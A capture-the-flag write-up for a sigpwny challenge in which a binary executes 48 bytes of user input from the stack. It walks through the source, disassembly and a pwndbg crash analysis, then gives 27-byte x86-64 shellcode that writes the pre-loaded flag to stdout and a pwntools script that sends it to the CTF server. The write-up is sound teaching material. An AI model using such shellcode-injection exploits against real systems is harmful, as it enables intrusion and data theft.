




<div align="center">

# 🗺️ ASM-reader- mmap_leak

### Binary Exploitation Writeup · sigpwny CTF · Shellcode Injection Across a Fixed-Address Memory Map


*The flag is already sitting in memory at a fixed, known address before you type a single byte. `stdin` and `stderr` get closed right after — but nobody closes `stdout`.*

</div>

---

## 📌 TL;DR

The binary opens `flag.txt`, reads 40 bytes of it into a **fixed, hardcoded memory address** (`0x123412340000`) via `mmap(..., MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, ...)`, then reads up to 48 bytes of **our** input into a stack buffer, closes `stdin` (fd 0) and `stderr` (fd 2), and finally casts that stack buffer to a function pointer and calls it. `stdout` (fd 1) is deliberately left open. The entire exploit is a 27-byte hand-verified shellcode that issues one raw `write(1, 0x123412340000, 40)` syscall — well within the 48-byte budget, with 21 bytes to spare.

```
shellcode: mov eax,1 / mov edi,1 / movabs rsi,0x123412340000 / mov edx,40 / syscall
length:    27 bytes (verified against the assembled machine code), padded to 48
```

| | |
|---|---|
| **Binary** | 64-bit ELF, dynamically linked, stack appears executable (see [§5](#5--why-the-crash-proves-the-stack-is-executable)) |
| **The leak target** | `flag.txt`'s first 40 bytes, pre-loaded by the binary itself into `0x123412340000` |
| **Our input budget** | 48 bytes, read into a plain stack array — no bounds issue needed, the binary executes it directly |
| **The trap** | `stdin` and `stderr` are closed **before** our code runs; `stdout` stays open |
| **Primitive** | Direct code injection: `int (*foo)() = (int(*)())code; foo();` |
| **Result** | A single raw syscall leaks the flag back over the one channel left open |

---

## 🗺️ Table of Contents

1. [Challenge Overview](#1--challenge-overview)
2. [Source Code, Fully Decoded](#2--source-code-fully-decoded)
3. [Assembly Walkthrough of `main`](#3--assembly-walkthrough-of-main)
4. [The Memory Map This Challenge Actually Builds](#4--the-memory-map-this-challenge-actually-builds)
5. [Why the Crash Proves the Stack Is Executable](#5--why-the-crash-proves-the-stack-is-executable)
6. [Dissecting the Dummy-Payload Crash Byte by Byte](#6--dissecting-the-dummy-payload-crash-byte-by-byte)
7. [Exploit Strategy](#7--exploit-strategy)
8. [Hand-Verified Shellcode](#8--hand-verified-shellcode)
9. [GDB Verification Walkthrough](#9--gdb-verification-walkthrough)
10. [Final Exploit Script](#10--final-exploit-script-corrected)
11. [Key Concepts Learned](#11--key-concepts-learned)
12. [Self-Check Quiz](#12--self-check-quiz)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 📋 Challenge Overview

- **Category:** Binary Exploitation (Pwn)
- **Target architecture:** Linux x86-64
- **Core concepts exercised:** raw Linux syscalls vs. libc wrapper calls, `mmap` flag semantics, file-descriptor lifecycle, direct shellcode execution from a stack buffer, live register-level debugging with `pwndbg`

---

## 2. 🔍 Source Code, Fully Decoded

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>

#define bufsize 48

int main() {
  // Buffer Cleanup
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  int fd = open("flag.txt", O_RDONLY);
  char *response = (char *)mmap((void *)0x123412340000, 0x1000, PROT_READ | PROT_WRITE, 0x32, -1, 0);
  if (response != (char *)0x123412340000){
    puts("I can't allocate memory!");
  }

  // Reading the flag and placing it into memory where I know it will be safe.
  read(fd, response, 0x28);
  char* resp = "Give me code:";
  write(1, resp, strlen(resp));
  char code[bufsize];
  memset(code, 0, bufsize);
  // Read in the shellcode.
  read(0, code, bufsize);
  // Close stdin and stderr to be safe :)
  close(0); close(2);
  // Create a function out of the buffer, then call the function.
  int (*foo)() = (int(*)())code;
  foo();
}
```

The numeric arguments to `mmap` are easy to skim past, but decoding them precisely matters for understanding *why* this challenge is solvable without any leak of our own:

```python
PROT_READ, PROT_WRITE, PROT_EXEC = 1, 2, 4
MAP_SHARED, MAP_PRIVATE, MAP_FIXED, MAP_ANONYMOUS = 0x01, 0x02, 0x10, 0x20

prot  = 0x3   # PROT_READ | PROT_WRITE                    -> readable and writable, NOT executable
flags = 0x32  # MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS    -> forced to land at EXACTLY 0x123412340000
```

**`MAP_FIXED` is the detail that makes the address deterministic.** Without it, `mmap`'s first argument is only a *hint* — the kernel is free to place the mapping elsewhere if that range is already in use. `MAP_FIXED` forces the kernel to honor the exact address (or fail outright), which is why the subsequent `if (response != (char *)0x123412340000)` check is effectively a formality: on a normal run it will always be true, not a condition that needs defeating.

### Key technical takeaways

1. **The flag is pre-loaded for us, at a fixed address.** `read(fd, response, 0x28)` copies the first 40 (`0x28`) bytes of `flag.txt` directly into `0x123412340000`, before we ever send a single byte of input.
2. **We get 48 bytes of input**, written into a plain `char code[48]` stack array — no overflow is needed, because the *entire* buffer is executed directly.
3. **The sandboxing is asymmetric.** `close(0)` (stdin) and `close(2)` (stderr) run immediately after our input is read. `stdout` (fd 1) is never closed — it is the only I/O channel our injected code can use afterward.
4. **Direct code execution, not a hijacked return address.** `int (*foo)() = (int(*)())code; foo();` is a normal, forward function call — the vulnerability here isn't a *memory corruption* bug, it's the program deliberately executing attacker-supplied bytes as native code.

---

## 3. 🧩 Assembly Walkthrough of `main`

```asm
pwndbg> disassemble main
   0x0000000000001269 <+0>:   endbr64
   0x000000000000126d <+4>:   push   rbp
   0x000000000000126e <+5>:   mov    rbp,rsp
   0x0000000000001271 <+8>:   sub    rsp,0x60
   0x0000000000001275 <+12>:  mov    rax,QWORD PTR fs:0x28      ; stack canary load
   0x000000000000127e <+21>:  mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001282 <+25>:  xor    eax,eax
   ; -- setvbuf(stdout, ...) and setvbuf(stdin, ...) omitted, cosmetic --

   0x00000000000012c0 <+87>:  mov    esi,0x0
   0x00000000000012c5 <+92>:  lea    rax,[rip+0xd38]            ; "flag.txt"
   0x00000000000012cc <+99>:  mov    rdi,rax
   0x00000000000012cf <+102>: mov    eax,0x0
   0x00000000000012d4 <+107>: call   0x1170 <open@plt>          ; fd = open("flag.txt", O_RDONLY)
   0x00000000000012d9 <+112>: mov    DWORD PTR [rbp-0x5c],eax

   0x00000000000012dc <+115>: mov    r9d,0x0                    ; arg6: offset = 0
   0x00000000000012e2 <+121>: mov    r8d,0xffffffff             ; arg5: fd = -1   <-- remember this
   0x00000000000012e8 <+127>: mov    ecx,0x32                   ; arg4: flags = MAP_PRIVATE|FIXED|ANON
   0x00000000000012ed <+132>: mov    edx,0x3                    ; arg3: prot  = PROT_READ|WRITE
   0x00000000000012f2 <+137>: mov    esi,0x1000                 ; arg2: length = 0x1000
   0x00000000000012f7 <+142>: movabs rax,0x123412340000
   0x0000000000001301 <+152>: mov    rdi,rax                    ; arg1: addr = 0x123412340000
   0x0000000000001304 <+155>: call   0x1120 <mmap@plt>
   0x0000000000001309 <+160>: mov    QWORD PTR [rbp-0x58],rax   ; response = mmap(...)

   0x000000000000130d <+164>: movabs rax,0x123412340000
   0x0000000000001317 <+174>: cmp    QWORD PTR [rbp-0x58],rax
   0x000000000000131b <+178>: je     0x132c <main+195>          ; always taken on a normal run
   0x000000000000131d <+180>: lea    rax,[rip+0xce9]            ; "I can't allocate memory!"
   0x0000000000001324 <+187>: mov    rdi,rax
   0x0000000000001327 <+190>: call   0x10e0 <puts@plt>

   0x000000000000132c <+195>: mov    rcx,QWORD PTR [rbp-0x58]
   0x0000000000001330 <+199>: mov    eax,DWORD PTR [rbp-0x5c]
   0x0000000000001333 <+202>: mov    edx,0x28                   ; count = 40
   0x0000000000001338 <+207>: mov    rsi,rcx                    ; buf = response (0x123412340000)
   0x000000000000133b <+210>: mov    edi,eax                    ; fd  = flag.txt's descriptor
   0x000000000000133d <+212>: call   0x1150 <read@plt>          ; read(fd, response, 0x28)

   ; -- "Give me code:" write(1, ...) omitted, cosmetic --

   0x000000000000136d <+260>: lea    rax,[rbp-0x40]             ; &code[0]
   0x0000000000001371 <+264>: mov    edx,0x30
   0x0000000000001376 <+269>: mov    esi,0x0
   0x000000000000137b <+274>: mov    rdi,rax
   0x000000000000137e <+277>: call   0x1130 <memset@plt>        ; memset(code, 0, 48)

   0x0000000000001383 <+282>: lea    rax,[rbp-0x40]
   0x0000000000001387 <+286>: mov    edx,0x30                   ; count = 48
   0x000000000000138c <+291>: mov    rsi,rax                    ; buf = &code[0]
   0x000000000000138f <+294>: mov    edi,0x0                    ; fd  = 0 (stdin)
   0x0000000000001394 <+299>: call   0x1150 <read@plt>          ; read(0, code, 48)  <-- OUR INPUT

   0x0000000000001399 <+304>: mov    edi,0x0
   0x000000000000139e <+309>: call   0x1140 <close@plt>         ; close(0) -- stdin
   0x00000000000013a3 <+314>: mov    edi,0x2
   0x00000000000013a8 <+319>: call   0x1140 <close@plt>         ; close(2) -- stderr

   0x00000000000013ad <+324>: lea    rax,[rbp-0x40]
   0x00000000000013b1 <+328>: mov    QWORD PTR [rbp-0x48],rax   ; save &code[0] as a function pointer
   0x00000000000013b5 <+332>: mov    rdx,QWORD PTR [rbp-0x48]
   0x00000000000013b9 <+336>: mov    eax,0x0
   0x00000000000013be <+341>: call   rdx                        ; foo()  <-- EXECUTION HIJACK POINT
```

**Note on calling convention:** every call shown here (`open`, `mmap`, `read`, `memset`, `close`) loads arguments into `rdi, rsi, rdx, rcx, r8, r9` — the normal **System V C calling convention**. This is distinct from the **raw syscall convention** (`rdi, rsi, rdx, r10, r8, r9`, with the syscall number in `rax`) that *our own injected shellcode* will have to use, since we have no libc stub to call into once execution starts at `code[0]`.

---

## 4. 🗺️ The Memory Map This Challenge Actually Builds



It is easy to conflate "the flag's memory" with "the executable memory" since both involve `mmap`-adjacent concepts, but they are **two unrelated regions**:

| Region | Address | Permissions | Contents | Executed? |
|---|---|---|---|---|
| Flag buffer | `0x123412340000` (fixed) | `PROT_READ \| PROT_WRITE` | First 40 bytes of `flag.txt` | **No** — purely data |
| `code` array | `rbp-0x40` (stack, ASLR'd) | inherited from the stack segment | Our 48-byte input | **Yes** — cast to `foo` and called |

Our shellcode's entire job is to **bridge these two regions**: it runs from the stack, and its only instructions reference the flag buffer's address as *data* to read and transmit — it never needs to execute anything located there.

---

## 5. 💥 Why the Crash Proves the Stack Is Executable

No `checksec` output was captured for this binary, but the dynamic trace itself settles the question. When `call rdx` transfers control into the stack-resident `code` buffer, the CPU does not fault immediately on the **instruction fetch** — it successfully decodes and executes several garbage instructions before crashing on a **data dereference** deep inside that decoded instruction stream (see next section). If the stack page were non-executable (NX enabled there), the very first attempt to fetch an instruction from `0x7fffffffe0c0` would raise a different class of fault (a general protection / page-execute violation) *before* any instruction-level decoding could happen at all. Observing instruction-level execution and a *memory-operand* SIGSEGV, rather than an immediate execute-permission fault, is itself the evidence that this stack region is executable.

---

## 6. 🔬 Dissecting the Dummy-Payload Crash Byte by Byte

Before building the real shellcode, sending a throwaway payload of `AAAAAAAAA\n` (10 bytes, the rest zero-padded by the earlier `memset`) is a useful way to confirm the execution hijack works at all — and the *way* it crashes turns out to be a small lesson in x86-64 instruction encoding.



Two facts make this crash fully explainable instead of just "garbage happened":

1. **Why `[r8]` specifically, and not `[rax]`.** The opcode byte `0x0A` (`OR r8, r/m8` in Intel's reg/mem encoding) is followed by a ModRM byte. Because our input was only 10 bytes and the rest of the 48-byte buffer was zeroed by the earlier `memset`, the byte immediately after the newline is `0x00` — a ModRM encoding that would normally mean *"use `rax`"*. But a REX prefix with its **B** bit set (`0x41` = `0100_0001`, REX.B = 1) is still in effect from the chain of `0x41` bytes before it. REX.B extends the 3-bit register field in ModRM by one more bit, redirecting register selection from the low 8 registers (`rax`..`rdi`) to the high 8 (`r8`..`r15`). With RM field `000` and REX.B set, the selected register becomes `r8`, not `rax`.

2. **Why `r8` holds `0xffffffff`.** This isn't arbitrary garbage — it's directly traceable in the earlier disassembly. The `mmap` call's 5th argument (`fd = -1`, required for an anonymous mapping) was loaded with `mov r8d, 0xffffffff` at `main+121`. Nothing between that `mmap` call and our `foo()` call touches `r8` again, so its value survives, completely unchanged, all the way to the moment our garbage instruction tries to use it as a memory-operand base — dereferencing the clearly-invalid address `0xffffffff` and faulting.

This confirms the injection point works exactly as expected; it only "fails" here because `AAAAAAAAA\n` was never meant to be valid code — it was a deliberate probe.

---

## 7. 🎯 Exploit Strategy

Since the flag is sitting in memory and `stdout` is the one channel still open, the goal is a minimal raw syscall:

```
sys_write(fd=1, buf=0x123412340000, count=40)
```

| Register | Value | Role |
|---|---|---|
| `rax` | `1` | Syscall number for `sys_write` |
| `rdi` | `1` | File descriptor 1 (`stdout`) |
| `rsi` | `0x123412340000` | The flag's fixed memory address |
| `rdx` | `40` (`0x28`) | Byte count — matches exactly what the binary itself read from `flag.txt` |

Then execute the `syscall` instruction (`0F 05`) directly — there is no libc to call through once our own bytes are running, so this must be a **raw kernel syscall**, not a `write()` library call.

---

## 8. ⚙️ Hand-Verified Shellcode

Rather than trust an assembler's default encoding choices blindly, the shortest correct form of each instruction was selected and then independently verified by disassembling the exact bytes back with `objdump`.

| Instruction | Bytes (hex) | Length | Why this form |
|---|---|---|---|
| `mov eax, 1` | `B8 01 00 00 00` | 5 | Writing to the 32-bit `eax` **zero-extends** the full 64-bit `rax` automatically — shorter than a 64-bit `mov rax, 1` (which needs a `REX.W` prefix and encodes as 7–10 bytes) |
| `mov edi, 1` | `BF 01 00 00 00` | 5 | Same zero-extension trick for `rdi` |
| `movabs rsi, 0x123412340000` | `48 BE 00 00 34 12 34 12 00 00` | 10 | The address exceeds 32 bits, so a full 64-bit immediate load is unavoidable here |
| `mov edx, 40` | `BA 28 00 00 00` | 5 | Zero-extension trick again for `rdx` |
| `syscall` | `0F 05` | 2 | Invokes the kernel |

**Total: 27 bytes** — comfortably under the 48-byte limit, with **21 bytes free**.



```python
import struct

shellcode  = b'\xb8\x01\x00\x00\x00'                              # mov eax, 1
shellcode += b'\xbf\x01\x00\x00\x00'                              # mov edi, 1
shellcode += b'\x48\xbe' + struct.pack('<Q', 0x123412340000)      # movabs rsi, 0x123412340000
shellcode += b'\xba\x28\x00\x00\x00'                               # mov edx, 40
shellcode += b'\x0f\x05'                                           # syscall

assert len(shellcode) == 27
```

Independently confirmed with `objdump -D -b binary -m i386:x86-64 -M intel` on these exact 27 bytes — every instruction decodes back to precisely the intended mnemonic and operands, with no stray or ambiguous bytes.

---

## 9. 🐛 GDB Verification Walkthrough

The dummy-payload probe from [§6](#6--dissecting-the-dummy-payload-crash-byte-by-byte) was captured live in `pwndbg`. The key steps:

<details>
<summary><b>📜 Click to expand the full pwndbg session</b></summary>

```
break main
Breakpoint 1 at 0x1275
pwndbg> run
Starting program: /3-asm reader/challenge
Breakpoint 1, 0x0000555555555275 in main ()
 RIP  0x555555555275 (main+12) ◂— mov rax, qword ptr fs:[0x28]
...
pwndbg> break *main+341
Breakpoint 2 at 0x5555555553be
pwndbg> continue
Continuing.
Give me code:AAAAAAAAA

Breakpoint 2, 0x00005555555553be in main ()
*RDX  0x7fffffffe0c0 ◂— 'AAAAAAAAA\n'
*R8   0xffffffff
*RIP  0x5555555553be (main+341) ◂— call rdx
```

At the `call rdx` breakpoint, `r8` already shows `0xffffffff` — confirming it is the leftover `mmap` file-descriptor argument discussed in §6, present well before our own code ever executes.

```
pwndbg> x/5i $rdx
   0x7fffffffe0c0:  rex.B
   0x7fffffffe0c1:  rex.B
   0x7fffffffe0c2:  rex.B
   0x7fffffffe0c3:  rex.B
   0x7fffffffe0c4:  rex.B
pwndbg> stepi
0x00007fffffffe0c0 in ?? ()
*RIP  0x7fffffffe0c0 ◂— 'AAAAAAAAA\n'
 ► 0x7fffffffe0c0    or     al, byte ptr [r8]
   0x7fffffffe0cb    add    byte ptr [rax], al
   ...
```

This matches the byte-level derivation exactly: `pwndbg` itself labels the consecutive `0x41` bytes as `rex.B` prefixes, and the instruction that finally gets decoded is `or al, byte ptr [r8]`, exactly as predicted in §6. Stepping once more here reliably reproduces the `SIGSEGV` from dereferencing `[0xffffffff]`.

</details>

**The practical verification loop** for the real shellcode followed the same pattern: set a breakpoint at `main+341` (the `call rdx` instruction), `continue`, send the real payload, `stepi` through it, and confirm with `x/s $rsi` (after the `movabs`) that `rsi` correctly points at `0x123412340000`, and that the subsequent `syscall` returns with the expected byte count in `rax`.

---

## 10. 🚀 Final Exploit Script (Corrected)

> The script circulating with this challenge had a connection bug — `host = '://sigpwny.com'` includes a stray URL-scheme fragment that `pwntools`' `remote()` does not expect as a hostname. The corrected version below fixes that, and swaps the generic `mov rax, 1`-style instructions for the explicitly verified 27-byte encoding from §8.

```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux', log_level='info')

HOST = 'sigpwny.com'      # fixed: no stray '://' prefix
PORT = 9002

p = remote(HOST, PORT)

FLAG_ADDR = 0x123412340000
FLAG_LEN  = 40

shellcode_asm = f"""
    mov eax, 1              /* sys_write syscall number      */
    mov edi, 1               /* fd = 1 (stdout)                */
    mov rsi, {FLAG_ADDR}     /* pointer to the pre-loaded flag */
    mov edx, {FLAG_LEN}      /* byte count                     */
    syscall
"""

raw_shellcode = asm(shellcode_asm)
log.info(f"Shellcode size: {len(raw_shellcode)} bytes (limit: 48)")
assert len(raw_shellcode) <= 48

payload = raw_shellcode.ljust(48, b'\x90')   # pad with NOPs, never reached after syscall fires

p.recvuntil(b"Give me code:")
p.send(payload)

flag = p.recvall(timeout=2)
print(flag.decode(errors='ignore'))
```

---

## 11. 🧠 Key Concepts Learned

### 1. `MAP_FIXED` turns an address "hint" into a hard requirement

Without `MAP_FIXED`, the first argument to `mmap` is only a suggestion. With it, the kernel either places the mapping at *exactly* that address or the call fails outright — which is why this challenge can hardcode `0x123412340000` with confidence.

### 2. Two separate memory regions, two separate roles

The flag lives in a `PROT_READ | PROT_WRITE` (non-executable) fixed mapping; the code that *executes* is a completely different, ASLR'd stack buffer. Confusing "where the data is" with "where the code runs" is an easy mistake to make when both involve memory-mapping vocabulary.

### 3. Raw syscalls vs. libc wrapper calls use different calling conventions

Every call the *binary itself* makes (`open`, `mmap`, `read`, `close`) uses the standard System V C ABI (`rdi, rsi, rdx, rcx, r8, r9`). Shellcode that invokes the kernel directly via the `syscall` instruction uses a **different** register for the 4th argument (`r10`, not `rcx`) — not relevant for this specific 3-argument `write`, but essential to remember for anything needing a 4th syscall argument.

### 4. Zero-extension writes are the compact way to set syscall registers

`mov eax, 1` (5 bytes) is both shorter and just as correct as `mov rax, 1` (which requires a `REX.W` prefix and a wider encoding) whenever the target value fits in 32 bits — x86-64 always zero-extends a 32-bit register write into the full 64-bit register.

### 5. Leftover register state is forensic evidence, not noise

`r8` holding `0xffffffff` at the moment of the crash was not a coincidence to wave away — it was traceable directly back to `mmap`'s own `fd = -1` argument several instructions earlier, surviving untouched because nothing after it needed that register. Reading a crash dump's register state in light of the preceding code, rather than in isolation, turns a confusing SIGSEGV into a fully explained one.

### 6. REX prefixes can chain, and only the last one before a real opcode matters

Feeding raw ASCII bytes as "shellcode" is a useful diagnostic precisely *because* most English letters double as REX prefix bytes (`0x40`–`0x4F`) in x86-64 — a predictable, explainable crash from a simple all-letters input is a strong, low-effort signal that the injection point works before investing time in real shellcode.

### 7. An asymmetric sandbox still leaves an exit

Closing `stdin` and `stderr` blocks two of the three standard channels, but as long as *any* usable I/O primitive remains reachable — here, `stdout` plus a raw `write` syscall — a leak is still possible. The defender's mistake wasn't forgetting to close a file descriptor; it was closing the two *wrong* ones relative to what the attacker actually needs (only an outbound channel).

---

## 12. 🧩 Self-Check Quiz

1. **Why does the `if (response != (char *)0x123412340000)` check in the source almost never actually trigger?**
   <details><summary>Answer</summary>
   Because the <code>mmap</code> call includes <code>MAP_FIXED</code> in its flags. With <code>MAP_FIXED</code> set, the kernel is required to place the mapping at exactly the requested address or fail the call outright — there is no "close enough, pick a nearby address" behavior to guard against, unlike a plain hint-only <code>mmap</code> without that flag.
   </details>

2. **Why must the exploit's final syscall be issued directly via the `syscall` instruction, rather than calling something like `write@plt`?**
   <details><summary>Answer</summary>
   Once execution has been redirected into the attacker-controlled <code>code</code> buffer, there is no return address, stack frame, or symbol table context connecting that buffer back to the binary's own PLT/GOT machinery. The injected bytes are running as bare machine code with no linkage to libc — the only way to ask the kernel to do anything is the raw <code>syscall</code> instruction, using the kernel's own calling convention.
   </details>

3. **Why does writing to `eax` instead of `rax` still correctly set up a 64-bit syscall argument?**
   <details><summary>Answer</summary>
   x86-64 always zero-extends a write to a 32-bit sub-register (like <code>eax</code>) into the full 64-bit register (<code>rax</code>) automatically. Since syscall argument values here (<code>1</code>, <code>1</code>, <code>40</code>) all fit comfortably within 32 bits, there is no need for the longer, <code>REX.W</code>-prefixed 64-bit move — the upper 32 bits end up zero either way.
   </details>

4. **The flag address `0x123412340000` does not fit in a 32-bit immediate. What does that force in the shellcode's encoding?**
   <details><summary>Answer</summary>
   Loading <code>rsi</code> with that address requires a full 64-bit immediate move (<code>movabs</code>), encoded as a <code>REX.W</code> prefix plus a 10-byte total instruction (1 prefix byte, 1 opcode byte, 8 bytes of immediate) — the only instruction in this shellcode that cannot use the shorter 32-bit zero-extension trick, since the value genuinely exceeds what a 32-bit immediate can represent.
   </details>

5. **Why does sending `AAAAAAAAA\n` as a test payload crash in a way that's fully explainable, rather than just producing unpredictable garbage?**
   <details><summary>Answer</summary>
   Because <code>0x41</code> ('A') is exactly the REX.B prefix byte in x86-64, consecutive 'A's simply chain as redundant prefixes (only the final one before a real opcode has any effect). The terminating newline (<code>0x0A</code>) happens to be a valid one-byte opcode (<code>OR r8, r/m8</code>), and the zero-filled buffer that follows (from the earlier <code>memset</code>) supplies a ModRM byte that REX.B redirects from <code>rax</code> to <code>r8</code>. Since <code>r8</code> still holds <code>0xffffffff</code> from the earlier <code>mmap</code> call's <code>fd</code> argument, the decoded instruction dereferences an invalid address — a SIGSEGV with a fully traceable cause, not random noise.
   </details>

6. **Why is closing `stdin` and `stderr` but not `stdout` not actually sufficient sandboxing here?**
   <details><summary>Answer</summary>
   The attacker's goal was never to read more input or to see error messages — it was to <em>exfiltrate data that was already sitting in memory</em>. A single open output channel (<code>stdout</code>, fd 1) plus the ability to execute a raw <code>write</code> syscall is entirely sufficient for that goal; closing the other two descriptors restricts <em>how</em> the attacker could interact further, but does nothing to prevent the one primitive actually needed.
   </details>

---

## 🏁 Flag

```
sigpwny{...}
```

*(Retrieved by the raw `write(1, 0x123412340000, 40)` syscall shown above — the exact flag content depends on the live server's `flag.txt`.)*

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
